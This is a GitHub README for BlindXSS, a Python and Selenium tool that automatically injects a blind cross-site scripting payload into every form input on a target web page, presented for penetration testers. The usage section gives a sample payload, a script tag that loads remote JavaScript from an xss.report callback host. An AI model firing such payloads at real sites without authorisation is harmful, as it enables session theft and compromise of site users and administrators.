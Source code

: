 # BlindXSS - Automated Blind XSS Testing Tool

```
__________.__  .__            .___ ____  ___  _________ _________
\______   \  | |__| ____    __| _/ \   \/  / /   _____//   _____/
 |    |  _/  | |  |/    \  / __ |   \     /  \_____  \ \_____  \ 
 |    |   \  |_|  |   |  \/ /_/ |   /     \  /        \/        \
 |______  /____/__|___|  /\____ |  /___/\  \/_______  /_______  /
        \/             \/      \/        \_/        \/        \/ 

made by @hghost010
```

## 🎯 Description

BlindXSS is an automated web security testing tool designed to identify potential blind Cross-Site Scripting (XSS) vulnerabilities. The tool systematically injects XSS payloads into form inputs and interactive elements on web pages to help security researchers and penetration testers identify potential security weaknesses.

## ✨ Features

- **Automated Form Detection**: Automatically finds and tests input fields, textareas, select elements, and contenteditable elements
- **Comprehensive Testing**: Tests various HTML input types and interactive elements
- **Smart Navigation**: Handles form submissions and page redirections intelligently
  
## 🔄 Immediate Updates (Next Few Days):

- Cookie Support - The main feature you mentioned for testing authenticated areas
- Enhanced Configuration - More customization options
- Improved Reporting - Better output and logging

## 🛠️ Requirements

### System Requirements
- Python 3.7+
- Chrome/Chromium browser
- Internet connection

### Python Dependencies
```
selenium>=4.0.0
webdriver-manager>=3.8.0
colorama>=0.4.4
```

## 📦 Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/Hghost0x00/Blind_XSS.git
   cd Blind_XSS
   ```

2. **Install Python dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Verify Chrome/Chromium installation:**
   - The tool uses webdriver-manager to automatically download and manage ChromeDriver
   - Ensure Chrome or Chromium is installed on your system

## 🚀 Usage

1. **Run the tool:**
   ```bash
   python bxss.py
   ```

2. **Enter target URL:**
   ```
   Enter the target URL: https://example.com/login
   ```

3. **Provide XSS payload:**

Enter your blind XSS payload: '"><script src=https://xss.report/c/__your_username__></script>

Tip: Using `xss.report` payloads is one of the easiest ways to use this tool. Simply create a free account and use your personalized payload.

4. **Monitor the testing process:**
   - The tool will automatically find and test all interactive elements


## 🐛 Troubleshooting

### Common Issues

**ChromeDriver not found:**
- Solution: The webdriver-manager should handle this automatically. If issues persist, manually install ChromeDriver.

**Permission denied errors:**
- Solution: Run with appropriate permissions or check Chrome installation.

**Timeout errors:**
- Solution: Increase the timeout values in the script for slower websites.



## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- Created by [@hghost010](https://x.com/hghost010)
- The Team : [AnonKryptiQuz](https://github.com/AnonKryptiQuz) [1hehaq](https://github.com/1hehaq) [Naho666](https://github.com/Naho666) [Coffinxp](https://github.com/coffinxp)
- Built with Selenium WebDriver
- Uses webdriver-manager for Chrome driver management

## ⭐ Support

If you find this tool helpful, please consider:
- ⭐ Starring the repository
- 🐛 Reporting bugs and issues
- 💡 Suggesting new features
- ☕ Buy me a coffee: 2CZhBKWbacJyVs7k7BJiC3ay4tq3HsPtUysMeSqjRRd4 (Solana)
